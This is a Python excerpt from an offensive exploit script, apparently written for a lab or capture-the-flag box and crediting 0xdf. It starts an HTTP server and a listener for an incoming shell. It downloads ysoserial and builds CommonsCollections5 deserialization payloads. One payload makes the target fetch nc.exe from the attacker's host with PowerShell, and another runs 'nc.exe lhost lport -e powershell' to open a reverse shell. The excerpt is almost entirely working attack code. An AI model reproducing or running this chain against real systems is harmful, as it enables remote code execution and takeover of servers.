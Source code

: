```py
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Download the yososerial
def downloadPayGen():
    print("[+] Let's copy nc to the working path ! [+]")
    os.system("cp /usr/share/windows-binaries/nc.exe .")
    print("[+] nc copied ! [+]")
    print("[+] Let's test to see if we already have yososerial on the working folder ! [+]")
    output_jar = "ysoserial-master-SNAPSHOT.jar"
    if not os.path.isfile(output_jar):
        print("[+] I did no locate it, let's dowload ! WAAAAAAAIT SOME MINUTES TO COMPLETE IT ! [+]")
        os.system("wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar")
    else:
        print("[+] We already have it, let's exploit !!! [+]")

# Function to generate the payload
def downloadNcRemote(lhost):
    print("[+] Let's download the nc to the remote box !!! [+]")
    cmd = "powershell.exe IWR -Uri http://%s/nc.exe -OutFile C:\\Windows\\temp\\nc.exe" % (lhost)
    os.system("java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 '%s' > payload.bin" %cmd)
    exploit()
    print("[+] Download done, let's get the reverse shell ! [+]")

def getReverseShell(lhost,lport):
    os.system("sleep 5")
    print("[+] Let's grab some shell ! [+]")
    cmd = "cmd /c C:\\Windows\\temp\\nc.exe %s %s -e powershell" %(lhost,lport)
    os.system("java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 '%s' > payload.bin" %cmd)
    exploit()

## Section to Exploit the Things - Credits - 0xdf
def create_payload():
    payload = open ('payload.bin', 'rb').read()
    return encrypt_payload(payload)
```
